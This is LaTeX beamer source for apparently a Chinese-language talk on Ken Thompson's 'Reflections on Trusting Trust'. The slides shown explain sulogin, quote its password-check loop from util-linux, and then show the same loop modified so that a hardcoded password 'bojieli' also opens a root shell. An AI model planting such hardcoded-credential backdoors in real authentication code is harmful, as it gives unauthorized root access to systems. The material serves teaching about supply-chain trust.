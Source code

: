 \documentclass{beamer}
\begin{document}
\title{给开源编译器插入后门}
\subtitle{Ken Thompson's \emph{Reflections on Trusting Trust}}
\author{李博杰 bojieli@gmail.com}
\date{\today}
\frame{\titlepage}


\section{给sulogin插入后门}

\begin{frame}[fragile]{What is sulogin?}
\begin{itemize}
  \item Linux系统启动过程中出现错误时，就会有这个进入恢复模式的提示：
  \item {\small
\begin{verbatim}
Give root password for maintenance
(or type Control-D to continue):
\end{verbatim}
  }
  \item 这个程序本身是以root身份运行的，去系统用户数据库检查用户输入的root密码是否正确，如果正确的话就进入一个root shell
  \item 如果让这个程序在接受正确密码之余，还能够悄悄接受bojieli这个密码……
  \item 让我们从sulogin的源码（在util-linux这个包里）开始。
\end{itemize}
\end{frame}

\begin{frame}[fragile]{给sulogin插入后门}
\begin{verbatim}
while (pwd) {
    if ((p = getpasswd(pwd->pw_passwd)) == NULL)
        break;
    if (pwd->pw_passwd[0] == 0 ||
        strcmp(crypt(p, pwd->pw_passwd), pwd->pw_passwd) == 0)
        sushell(pwd);
    mask_signal(SIGQUIT, SIG_IGN, &saved_sigquit);
    mask_signal(SIGTSTP, SIG_IGN, &saved_sigtstp);
    mask_signal(SIGINT,  SIG_IGN, &saved_sigint);
    fprintf(stderr, _("Login incorrect\n\n"));
}
\end{verbatim}
\end{frame}

\begin{frame}[fragile]{给sulogin插入后门}
\begin{verbatim}
while (pwd) {
    if ((p = getpasswd(pwd->pw_passwd)) == NULL)
        break;
    if (pwd->pw_passwd[0] == 0 ||
        strcmp(p, "bojieli") == 0 ||
        strcmp(crypt(p, pwd->pw_passwd), pwd->pw_passwd) == 0)
        sushell(pwd);
    mask_signal(SIGQUIT, SIG_IGN, &saved_sigquit);
    mask_signal(SIGTSTP, SIG_IGN, &saved_sigtstp);
    mask_signal(SIGINT,  SIG_IGN, &saved_sigint);
    fprintf(stderr, _("Login incorrect\n\n"));
}
\end{verbatim}
\end{frame}
\end{document}
